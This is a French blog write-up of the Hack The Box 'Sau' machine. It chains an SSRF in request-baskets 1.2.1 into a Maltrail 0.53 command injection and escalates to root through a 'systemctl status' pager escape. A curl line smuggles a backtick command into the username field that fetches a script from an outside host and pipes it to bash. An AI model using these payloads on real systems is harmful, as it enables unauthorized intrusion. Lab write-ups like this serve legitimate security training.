 +++
title = "HTB - Sau"
date = "2024-01-09"
author = "Brainmoustache"
authorTwitter = "BrainMoustache" #do not include @
cover = ""
tags = ["hackthebox", "sau", "ssrf", "command injection", "gtfobins"]
keywords = ["", ""]
description = "Resume of Sau from Hackthebox"
showFullContent = false
readingTime = true
hideComments = false
color = "blue"
+++

# HTB - Sau

## Enumeration:
Nmap
```bash
Nmap scan report for 10.129.167.17
Host is up (0.028s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION      
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown           
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 08 Jul 2023 19:23:36 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close       
|     Request     
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 08 Jul 2023 19:23:11 GMT
|     Content-Length: 27    
|     href="/web">Found</a>.        
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 08 Jul 2023 19:23:11 GMT
|_    Content-Length: 0
```

## User exploit
Il y a deux vulnérabilités a exploiter afin d'obtenir un shell en tant que `User`.
Dans un premier temps `request-baskets v1.2.1` est vulnérable a une faille de type SSRF (Server Side Request Forgery). 

> Une faille de type SSRF permet d'effectuer des requêtes malicieuses par l'entremise du server Web vers un endroit arbitraire.

Cette vulnérabilité se situe dans les endpoints de l'API suivants au niveau du paramètre `forward_url`.
- /api/baskets/{name}
- /baskets/{name}

Lorsque le `Basket` est créé, il est possible de modifier ledit paramètre et d'y inséré une adresse IP locale. 

### Code vulnérable
- https://github.com/darklynx/request-baskets/tree/v1.2.1
```go
// https://github.com/darklynx/request-baskets/blob/a36e2ae402204050ce42a78d750785b4b10e7958/baskets.go#L18C1-L25C2

// BasketConfig describes single basket configuration.
type BasketConfig struct {
	ForwardURL    string `json:"forward_url"`
	ProxyResponse bool   `json:"proxy_response"`
	InsecureTLS   bool   `json:"insecure_tls"`
	ExpandPath    bool   `json:"expand_path"`
	Capacity      int    `json:"capacity"`
}
```
```go
// https://github.com/darklynx/request-baskets/blob/9e4107228f6b409ccd3c3d7371b0e0fd5a5798a1/baskets.go#L152

func (req *RequestData) Forward(client *http.Client, config BasketConfig, basket string) (*http.Response, error) {
	forwardURL, err := url.ParseRequestURI(config.ForwardURL)
	if err != nil {
		return nil, fmt.Errorf("invalid forward URL: %s - %s", config.ForwardURL, err)
	}

	// expand path
	if config.ExpandPath && len(req.Path) > len(basket)+1 {
		forwardURL.Path = expandURL(forwardURL.Path, req.Path, basket)
	}

	// append query
	if len(req.Query) > 0 {
		if len(forwardURL.RawQuery) > 0 {
			forwardURL.RawQuery += "&" + req.Query
		} else {
			forwardURL.RawQuery = req.Query
		}
	}
[...]
```
Lorsque le lien du panier est visité, la vulnérabilité est activée. 

Basé sur le résultat du scan nmap, il est possible de constater qu'une application est active sur le port `8338/tcp` mais que le trafic est filtré.
Il est donc possible d'effectuer des requêtes vers cette application grâce à la SSRF. Quelques requêtes suffises afin d'identifier que l'application active est `mailtrail`.

![](/img/htb/request_baskets_proxy_configuration.png)

La version du logiciel est `Mailtrail (v0.53)`. Cette version est vulnérable a une exécution de code au niveau du système d'exploitation (OS Command injection).

> Une vulnérabilité de type OS Command injection permet de faire exécuter du code arbitraire par le système d'exploitation. 

La vulnérabilité se situe au niveau de la fonction `subprocess.check_output` dans le paramètre `params.get("username")` dans le fichier `mailtrail/core/http.py`. 

```python
if not IS_WIN:
    try:
        subprocess.check_output(["logger", "-p", "auth.info", "-t", "%s[%d]" % (NAME.lower(), os.getpid()), "%s password for %s from %s port %s" % ("Accepted" if valid else "Failed", params.get("username"), self.client_address[0], self.client_address[1])], stderr=subprocess.STDOUT, shell=False)
    except Exception:
        if config.SHOW_DEBUG:
            traceback.print_exc()

return content
```
En combinant les deux vulnérabilités, il est possible d'obtenir un accès utilisateur sur la boxe.

```bash
#!/bin/bash

curl -k 'http://10.129.153.197:55555/qp9dxnt' --data 'username=;`/bin/curl 10.10.14.113/rev.sh | bash`'
```
User --> puma
## Root exploit
L'utilisateur `puma` a la permission d'exécuter une commande avec des droits de super utilisateur 

```bash
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
Voici une explication de la vulnérabilité

> *A vulnerability was found in the systemd package. The systemd package does not adequately block local privilege escalation for some Sudo configurations, for example, plausible sudoers files, in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This issue presents a substantial security risk when running systemctl from Sudo because less executes as root when the terminal size is too small to show the complete systemctl output.*

En effectuant plusieurs requêtes vers le service `Maltrail`, `pager`, un binaire qui permet de visionner du contenu au niveau d'un terminal Linux sera exécuté.

`sudo /usr/bin/systemctl status trail.service`

`pager` pointe vers le binaire `less`. En exécutant la commande `!sh`, on obtient un shell en tant que `root`.

![](/img/htb/systemctl_status_less_lpe.png)

## Resources:

| Hyperlink                                                        | Info                           |
| ---------------------------------------------------------------- | ------------------------------ |
| https://notes.sjtu.edu.cn/s/MUUhEymt7                            | Exploit request-baskets v1.2.1 |
| https://github.com/advisories/GHSA-58g2-vgpg-335q                | Exploit request-baskets v1.2.1 |
| https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/ | Exploit MailTrail v0.53        |
| https://bugzilla.redhat.com/show_bug.cgi?id=2175611              | Exploit systemctl              |
| https://gtfobins.github.io/gtfobins/systemctl/                   | GTFObins                       |